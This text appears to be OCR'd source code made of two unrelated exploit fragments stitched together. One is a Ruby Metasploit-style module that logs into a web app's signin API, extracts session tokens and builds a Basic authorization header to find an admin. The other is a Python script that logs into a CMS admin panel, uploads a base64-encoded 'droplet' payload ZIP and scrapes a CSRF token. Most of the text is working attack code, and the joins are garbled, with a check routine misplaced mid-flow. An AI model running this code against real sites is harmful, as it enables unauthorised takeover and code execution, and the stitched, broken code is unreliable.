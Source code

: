  res = send_request_cgi(
   {
   'method' => 'POST',
   'ctype'  => 'application/json',
   'uri' => normalize_uri(target_uri.path, app_path, 'api', 'auth', 'signin'),
   'data' => json_data
  })   

  if res && res.code == 200 && res.body =~ /usersessionid/
sessid = splitJSON(res.body, 'usersessionid')
userid = splitJSON2(res.body, 'id')
print_status("Sessionid: #{sessid}") 
print_status("Userid: #{userid}")
    enc_token = Rex::Text.encode_base64('' + user + ':' + sessid + '')
    token = 'Basic ' + enc_token + ''
print_status("Authorization: #{token}")
    find_admin(token, userid, app_path)


  else
    fail_with(Failure::NotVulnerable, 'An error occurred while login. Try again.')
  end
if sessionid_check
  return Exploit::CheckCode::Vulnerable
else
  return Exploit::CheckCode::Safe
end
#login
body= {'url':'','username_fieldname':'username_t18bknev','password_fieldname':'password_t18bknev','username_t18bknev':args.user,'password_t18bknev':args.password}
r = s2.post(args.url+'/admin/login/index.php', data=body, allow_redirects=False)
if(r.status_code==302 and r.headers['location'].find('/start/') != -1):
    print("[*] Login OK")
else:
    print("[*] Login Failed")
    exit(1)

time.sleep(1)

#create droplet
up = {'userfile':('t18bknev.zip', io.BytesIO(base64.b64decode(PAYLOAD)), "multipart/form-data")}
r = s2.post(args.url+'/admin/admintools/tool.php?tool=droplets&upload=1', files=up)
if(r.status_code==200 and r.text.find('1 Droplet(s) imported') != -1):
    print("[*] Droplet OK")
else:
    print("[*] Exploit Failed")
    exit(1)

time.sleep(1)

#get csrf token
r = s2.get(args.url+'/admin/pages/index.php')
soup = BeautifulSoup(r.text, 'html.parser')
formtoken = soup.find('input', {'name':'formtoken'})['value']
